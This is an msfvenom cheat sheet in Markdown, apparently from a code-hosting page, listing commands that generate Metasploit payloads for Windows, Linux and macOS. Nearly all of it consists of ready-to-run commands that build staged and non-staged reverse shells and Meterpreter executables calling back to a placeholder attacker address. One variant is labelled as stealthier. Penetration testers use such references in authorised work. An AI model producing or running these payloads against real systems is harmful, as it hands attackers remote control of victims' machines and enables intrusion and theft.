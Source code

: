 # MSFVenom Cheat Sheet

> **⚡ Metasploit's Swiss Army Knife** for payload generation and encoding  
> *Replace `{LHOST}` with your IP and `{LPORT}` with your listening port*

---

## 🔧 Basic Syntax
```bash
msfvenom -p <PAYLOAD> LHOST={LHOST} LPORT={LPORT} -f <FORMAT> -o <OUTPUT>
```

---

## 📦 Binary Payloads

### Windows
```bash
# Meterpreter Reverse TCP (Staged)
msfvenom -p windows/meterpreter/reverse_tcp LHOST={LHOST} LPORT={LPORT} -f exe > payload.exe

# Meterpreter Reverse HTTP (Stealthier)
msfvenom -p windows/meterpreter/reverse_http LHOST={LHOST} LPORT={LPORT} -f exe > http.exe

# Non-Staged Shell (Smaller)
msfvenom -p windows/shell_reverse_tcp LHOST={LHOST} LPORT={LPORT} -f exe > shell.exe

# 64-bit Meterpreter
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST={LHOST} LPORT={LPORT} -f exe > x64_payload.exe
```

### Linux
```bash
# 32-bit Reverse Shell
msfvenom -p linux/x86/shell_reverse_tcp LHOST={LHOST} LPORT={LPORT} -f elf > payload.elf

# 64-bit Reverse Shell
msfvenom -p linux/x64/shell_reverse_tcp LHOST={LHOST} LPORT={LPORT} -f elf > x64_payload.elf

# Meterpreter for Linux
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST={LHOST} LPORT={LPORT} -f elf > meterpreter.elf
```

### macOS
```bash
# macOS Reverse Shell
msfvenom -p osx/x86/shell_reverse_tcp LHOST={LHOST} LPORT={LPORT} -f macho > shell.macho

# macOS Meterpreter
msfvenom -p osx/x64/meterpreter/reverse_tcp LHOST={LHOST} LPORT={LPORT} -f macho > meterpreter.macho
```
